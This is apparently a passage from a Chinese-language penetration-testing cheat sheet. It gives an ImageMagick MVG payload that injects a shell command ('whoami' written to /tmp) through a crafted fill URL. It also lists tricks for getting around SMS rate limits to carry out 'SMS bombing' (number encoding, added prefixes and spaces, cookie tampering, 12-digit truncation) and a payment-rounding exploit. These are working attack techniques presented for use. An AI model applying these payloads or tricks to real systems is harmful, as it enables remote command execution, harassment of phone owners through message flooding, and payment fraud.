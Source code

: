     ```
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/image.jpg "|whoami>>/tmp/alyssa.txt")'
    pop graphic-context
    ```

    

## 逻辑漏洞
### 短信轰炸
> 17699999999
> url 编码为%31%37699999999 
> 手机号码前后加空格，86，086，0086，+86，0，00，/r,/n, 以及特殊符号等
> 修改cookie，变量，返回
> 138888888889   12位经过短信网关取前11位，导致短信轰炸
>
> 进行能解析的编码。

### 支付漏洞
- 四舍五入
>充值0.019四舍五入为0.2